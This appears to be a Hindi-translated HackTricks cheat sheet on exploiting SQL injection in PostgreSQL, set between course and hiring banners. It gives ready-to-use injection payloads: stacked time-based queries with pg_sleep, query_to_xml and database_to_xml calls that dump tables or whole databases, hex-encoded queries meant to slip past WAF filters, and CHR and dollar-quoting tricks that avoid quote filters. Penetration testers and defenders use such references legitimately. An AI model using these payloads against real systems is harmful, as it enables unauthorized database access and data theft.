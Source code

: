 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**यह पृष्ठ विभिन्न तकनीकों को समझाने का लक्ष्य रखता है जो आपको एक पोस्टग्रेएसक्यूएल डेटाबेस में पाए गए SQL इंजेक्शन का शोषण करने में मदद कर सकती हैं और उन तकनीकों को पूरा कर सकती हैं जो आप पा सकते हैं** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**PostgreSQL मॉड्यूल `dblink`** अन्य PostgreSQL उदाहरणों से कनेक्ट करने और TCP कनेक्शन निष्पादित करने की क्षमताएँ प्रदान करता है। ये सुविधाएँ, `COPY FROM` कार्यक्षमता के साथ मिलकर, विशेषाधिकार वृद्धि, पोर्ट स्कैनिंग और NTLM चुनौती प्रतिक्रिया कैप्चर जैसी क्रियाओं को सक्षम बनाती हैं। इन हमलों को निष्पादित करने के विस्तृत तरीकों के लिए देखें कि [इन हमलों को कैसे करें](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **dblink और बड़े ऑब्जेक्ट्स का उपयोग करके एक्सफिल्ट्रेशन उदाहरण**

आप [**इस उदाहरण को पढ़ सकते हैं**](dblink-lo_import-data-exfiltration.md) यह देखने के लिए कि **कैसे बड़े ऑब्जेक्ट्स के अंदर डेटा लोड करें और फिर फ़ंक्शन `dblink_connect` के उपयोगकर्ता नाम के अंदर बड़े ऑब्जेक्ट्स की सामग्री को एक्सफिल्ट्रेट करें**।

## PostgreSQL हमले: पढ़ें/लिखें, RCE, प्रिवेस्क

देखें कि कैसे PostgreSQL से होस्ट को समझौता करें और विशेषाधिकार बढ़ाएँ:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF बायपास

### PostgreSQL स्ट्रिंग फ़ंक्शन

स्ट्रिंग्स को मैनिपुलेट करना आपको **WAFs या अन्य प्रतिबंधों को बायपास करने में मदद कर सकता है**।\
[**इस पृष्ठ में**](https://www.postgresqltutorial.com/postgresql-string-functions/)**आप कुछ उपयोगी स्ट्रिंग फ़ंक्शन पा सकते हैं।**

### स्टैक्ड क्वेरीज़

याद रखें कि PostgreSQL स्टैक्ड क्वेरीज़ का समर्थन करता है, लेकिन कई एप्लिकेशन एक त्रुटि फेंक देंगे यदि 2 प्रतिक्रियाएँ लौटाई जाती हैं जब केवल 1 की अपेक्षा की जाती है। लेकिन, आप अभी भी टाइम इंजेक्शन के माध्यम से स्टैक्ड क्वेरीज़ का दुरुपयोग कर सकते हैं:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML ट्रिक्स

**query\_to\_xml**

यह फ़ंक्शन केवल एक फ़ाइल में XML प्रारूप में सभी डेटा लौटाएगा। यदि आप केवल 1 पंक्ति में बहुत सारा डेटा डंप करना चाहते हैं तो यह आदर्श है:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

यह फ़ंक्शन पूरे डेटाबेस को XML प्रारूप में केवल 1 पंक्ति में डंप करेगा (यदि डेटाबेस बहुत बड़ा है तो सावधान रहें क्योंकि आप इसे DoS कर सकते हैं या यहां तक कि अपने स्वयं के क्लाइंट को भी):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

यदि आप **क्वेरीज़** चला सकते हैं जो **एक स्ट्रिंग के अंदर** पास की जाती हैं (उदाहरण के लिए **`query_to_xml`** फ़ंक्शन का उपयोग करके)। **आप स्ट्रिंग को हेक्स के रूप में पास करने के लिए convert\_from का उपयोग कर सकते हैं और इस तरह फ़िल्टर को बायपास कर सकते हैं:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### निषिद्ध उद्धरण

यदि आप अपने पेलोड के लिए उद्धरण का उपयोग नहीं कर सकते हैं, तो आप इसे `CHR` के साथ बायपास कर सकते हैं बुनियादी धाराओं के लिए (_अक्षर संयोजन केवल बुनियादी प्रश्नों जैसे SELECT, INSERT, DELETE, आदि के लिए काम करता है। यह सभी SQL बयानों के लिए काम नहीं करता_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
या `$` के साथ। ये क्वेरी समान परिणाम लौटाती हैं:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अचूक को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
